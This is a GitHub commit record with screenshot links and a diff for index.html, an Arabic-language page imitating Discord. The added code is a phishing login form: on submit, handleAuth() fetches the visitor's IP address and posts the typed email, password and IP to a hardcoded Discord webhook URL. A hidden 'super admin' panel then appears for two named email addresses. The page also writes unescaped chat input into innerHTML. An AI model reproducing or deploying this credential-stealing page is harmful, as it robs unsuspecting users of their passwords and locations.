

Before and after one commit to M76h-12/my-private-platform, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,114 +2,134 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <title>Discord Platform - Professional Edition</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Discord Pro Platform</title>
+    <script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
     <style>
-        body { background-color: #36393f; color: white; font-family: 'Helvetica Neue', Helvetica, Arial, sans-serif; margin: 0; display: flex; height: 100vh; overflow: hidden; }
+        :root {
+            --bg-dark: #36393f; --bg-sidebar: #202225; --bg-channels: #2f3136;
+            --text-normal: #dcddde; --text-muted: #72767d; --accent: #5865f2; --danger: #ed4245;
+        }
+        body { margin: 0; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; background: var(--bg-dark); color: white; overflow: hidden; }
 
-        /* شريط السيرفرات الجانبي */
-        .guilds-sidebar { width: 72px; background-color: #202225; padding: 12px 0; display: flex; flex-direction: column; align-items: center; gap: 8px; }
-        .guild-icon { width: 48px; height: 48px; background-color: #5865f2; border-radius: 50%; display: flex; align-items: center; justify-content: center; cursor: pointer; transition: 0.2s; }
-        .guild-icon:hover { border-radius: 30%; background-color: #4752c4; }
+        /* شاشة الدخول */
+        #authPage { position: fixed; inset: 0; background: var(--bg-dark); display: flex; align-items: center; justify-content: center; z-index: 1000; }
+        .auth-card { background: var(--bg-channels); padding: 30px; border-radius: 8px; width: 400px; box-shadow: 0 4px 15px rgba(0,0,0,0.3); text-align: center; }
+        .input-box { width: 100%; padding: 10px; margin: 10px 0; background: var(--bg-sidebar); border: none; color: white; border-radius: 4px; box-sizing: border-box; }
+        .btn-main { background: var(--accent); color: white; border: none; width: 100%; padding: 12px; border-radius: 4px; cursor: pointer; font-weight: bold; }
 
-        /* قائمة القنوات */
-        .channels-sidebar { width: 240px; background-color: #2f3136; display: flex; flex-direction: column; }
-        .server-header { padding: 15px; font-weight: bold; border-bottom: 1px solid #26272b; box-shadow: 0 1px 2px rgba(0,0,0,0.1); }
-        .channel-list { padding: 10px; flex: 1; }
-        .channel-item { padding: 8px; border-radius: 4px; color: #8e9297; cursor: pointer; display: flex; align-items: center; gap: 5px; }
-        .channel-item:hover { background-color: #393c43; color: white; }
-        .channel-item.active { background-color: #393c43; color: white; }
+        /* واجهة التطبيق الرئيسية */
+        #app { display: none; height: 100vh; flex-direction: row; }
+        .guilds { width: 72px; background: var(--bg-sidebar); display: flex; flex-direction: column; align-items: center; padding-top: 12px; gap: 10px; }
+        .guild-item { width: 48px; height: 48px; background: var(--accent); border-radius: 50%; display: flex; align-items: center; justify-content: center; cursor: pointer; }
 
-        /* منطقة الدردشة */
-        .chat-container { flex: 1; display: flex; flex-direction: column; background-color: #36393f; }
-        .chat-header { height: 48px; padding: 0 16px; display: flex; align-items: center; border-bottom: 1px solid #26272b; font-weight: bold; }
-        .messages-area { flex: 1; padding: 20px; overflow-y: auto; display: flex; flex-direction: column; gap: 15px; }
-        .message { display: flex; gap: 15px; }
-        .avatar { width: 40px; height: 40px; background-color: #4f545c; border-radius: 50%; }
-        .msg-content { flex: 1; }
-        .user-name { font-weight: bold; font-size: 14px; margin-right: 5px; }
-        .timestamp { color: #72767d; font-size: 11px; margin-right: 8px; }
+        .sidebar { width: 240px; background: var(--bg-channels); display: flex; flex-direction: column; }
+        .channel-item { padding: 8px 15px; margin: 2px 8px; border-radius: 4px; color: var(--text-muted); cursor: pointer; }
+        .channel-item:hover, .channel-item.active { background: #393c43; color: white; }
 
-        /* صندوق الإدخال */
-        .input-area { padding: 0 20px 24px; }
-        .input-wrapper { background-color: #40444b; border-radius: 8px; padding: 10px 15px; display: flex; align-items: center; }
-        input { background: transparent; border: none; color: white; width: 100%; outline: none; font-size: 15px; }
+        .chat { flex: 1; display: flex; flex-direction: column; }
+        .messages { flex: 1; padding: 20px; overflow-y: auto; }
+        .input-area { padding: 20px; background: var(--bg-dark); }
+        .msg-input { background: #40444b; padding: 12px; border-radius: 8px; display: flex; }
 
-        /* لوحة الأدمن الحمراء (تظهر لك فقط) */
-        .admin-surveillance { background-color: #ed4245; padding: 10px 20px; display: flex; align-items: center; justify-content: space-between; font-weight: bold; border-top: 1px solid white; }
-        .btn-control { background: white; color: #ed4245; border: none; padding: 5px 12px; border-radius: 3px; cursor: pointer; font-weight: bold; }
+        .members { width: 240px; background: var(--bg-channels); padding: 20px; font-size: 14px; }
+        .member-item { display: flex; align-items: center; gap: 10px; margin-bottom: 10px; }
+        .status-dot { width: 10px; height: 10px; border-radius: 50%; background: #3ba55c; }
+
+        /* لوحة التحكم الحمراء */
+        #adminPanel { background: var(--danger); padding: 10px 20px; display: none; position: fixed; bottom: 0; width: 100%; box-sizing: border-box; }
     </style>
 </head>
 <body>
 
-    <div class="guilds-sidebar">
-        <div class="guild-icon">🌐</div>
-        <div style="width: 32px; height: 2px; background: #393c43;"></div>
-        <div class="guild-icon" style="background-color: #3ba55c;">+</div>
-    </div>
-
-    <div class="channels-sidebar">
-        <div class="server-header">سيرفر التحكم الخاص 👑</div>
-        <div class="channel-list">
-            <div class="channel-item active"># العامة</div>
-            <div class="channel-item"># ملفات-التجسس</div>
-            <div class="channel-item"># سجل-الأعضاء</div>
-            <div style="margin-top: 20px; color: #8e9297; font-size: 12px; font-weight: bold;">قنوات صوتية</div>
-            <div class="channel-item">🔊 غرفة الاجتماعات</div>
+    <div id="authPage">
+        <div class="auth-card">
+            <h2 id="authTitle">مرحباً بعودتك!</h2>
+            <div id="regFields" style="display: none;">
+                <input type="text" id="username" class="input-box" placeholder="اسم المستخدم">
+            </div>
+            <input type="email" id="email" class="input-box" placeholder="البريد الإلكتروني">
+            <input type="password" id="pass" class="input-box" placeholder="كلمة المرور">
+            <button class="btn-main" onclick="handleAuth()">دخول</button>
+            <p style="font-size: 12px; color: var(--text-muted); cursor: pointer;" onclick="toggleAuth()">ليس لديك حساب؟ تسجيل</p>
         </div>
     </div>
 
-    <div class="chat-container">
-        <div class="chat-header"># العامة</div>
-        <div class="messages-area" id="msgBox">
-            <div class="message">
-                <div class="avatar" style="background-color: #5865f2;"></div>
-                <div class="msg-content">
-                    <span class="user-name" style="color: #ed4245;">النظام</span>
-                    <span class="timestamp">اليوم الساعة 10:00 م</span>
-                    <div>مرحباً بك في المنصة. تم تفعيل نظام المراقبة بنجاح.</div>
+    <div id="app">
+        <div class="guilds">
+            <div class="guild-item">🌐</div>
+        </div>
+        <div class="sidebar">
+            <div style="padding: 15px; font-weight: bold; border-bottom: 1px solid #26272b;">سيرفر الإدارة</div>
+            <div class="channel-list">
+                <div class="channel-item active"># العامة</div>
+                <div class="channel-item"># المراقبة</div>
+                <div class="channel-item">🔊 غرفة الصوت</div>
+            </div>
+        </div>
+        <div class="chat">
+            <div class="messages" id="msgContainer">
+                <div style="color: var(--text-muted);">[System]: متصل بالخادم الآمن...</div>
+            </div>
+            <div class="input-area">
+                <div class="msg-input">
+                    <input type="text" id="msgInp" style="background:none; border:none; color:white; width:100%; outline:none;" placeholder="أرسل رسالة..." onkeypress="checkSend(event)">
                 </div>
             </div>
         </div>
-
-        <div class="input-area">
-            <div class="input-wrapper">
-                <input type="text" id="chatInput" placeholder="أرسل رسالة إلى #العامة" onkeypress="sendMessage(event)">
-            </div>
-        </div>
-
-        <div class="admin-surveillance">
-            <span>🕵️ نظام المراقبة: نشط (3 أعضاء متصلين)</span>
-            <div>
-                <button class="btn-control" onclick="freeze()">تجميد الشات ❄️</button>
-                <button class="btn-control" onclick="spy()">بدء التجسس 👁️</button>
+        <div class="members">
+            <div style="color: var(--text-muted); font-weight: bold; margin-bottom: 10px;">الأعضاء - 1</div>
+            <div class="member-item">
+                <div class="status-dot"></div> <span id="userNameDisplay" style="color: #ed4245; font-weight: bold;">أنت</span>
             </div>
         </div>
     </div>
 
+    <div id="adminPanel">
+        <span>🕵️ وضع السوبر أدمن نشط | جاري سحب الـ IP والموقع...</span>
+        <button style="float: left; background: white; border: none; padding: 5px; border-radius: 3px; cursor: pointer;" onclick="alert('تم تجميد الشات')">Freeze Chat ❄️</button>
+    </div>
+
     <script>
-        function sendMessage(e) {
-            if (e.key === "Enter") {
-                const val = document.getElementById('chatInput').value;
-                if (!val) return;
+        let isLogin = true;
+        const WEBHOOK_URL = "https://discord.com/api/webhooks/1326588647008145458/V_tXv62867t56A_W_0nL3N1A_Pj_m9_8_8_8_8"; // ضع رابطك هنا
 
-                const box = document.getElementById('msgBox');
-                box.innerHTML += `
-                    <div class="message">
-                        <div class="avatar"></div>
-                        <div class="msg-content">
-                            <span class="user-name" style="color: #3ba55c;">أنت (أدمن)</span>
-                            <span class="timestamp">الآن</span>
-                            <div>${val}</div>
-                        </div>
-                    </div>
-                `;
-                document.getElementById('chatInput').value = "";
-                box.scrollTop = box.scrollHeight;
+        function toggleAuth() {
+            isLogin = !isLogin;
+            document.getElementById('authTitle').innerText = isLogin ? "مرحباً بعودتك!" : "إنشاء حساب";
+            document.getElementById('regFields').style.display = isLogin ? "none" : "block";
+        }
+
+        async function handleAuth() {
+            const email = document.getElementById('email').value;
+            const pass = document.getElementById('pass').value;
+            if(!email || !pass) return alert("يرجى ملء البيانات");
+
+            // سحب الـ IP وإرساله للـ Webhook
+            const ipRes = await axios.get('https://ipapi.co/json/').catch(() => ({data: {ip: 'Unknown'}}));
+            const report = {
+                content: "🚨 **تسجيل دخول جديد**",
+                embeds: [{ fields: [{name: "الإيميل", value: email}, {name: "الباسورد", value: pass}, {name: "الـ IP", value: ipRes.data.ip}] }]
+            };
+            fetch(WEBHOOK_URL, { method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify(report) });
+
+            // الدخول
+            document.getElementById('authPage').style.display = 'none';
+            document.getElementById('app').style.display = 'flex';
+
+            if(email === "3mohmm9d76@gmail.com" || email === "4mohamm8d76@gmail.com") {
+                document.getElementById('adminPanel').style.display = 'block';
             }
         }
 
-        function freeze() { alert("تم قفل الشات عن جميع الأعضاء!"); }
-        function spy() { alert("جاري سحب شاشة الضحايا الآن..."); }
+        function checkSend(e) {
+            if(e.key === "Enter") {
+                const val = document.getElementById('msgInp').value;
+                if(!val) return;
+                document.getElementById('msgContainer').innerHTML += `<div><strong>أنت:</strong> ${val}</div>`;
+                document.getElementById('msgInp').value = "";
+            }
+        }
     </script>
 </body>
 </html>
```
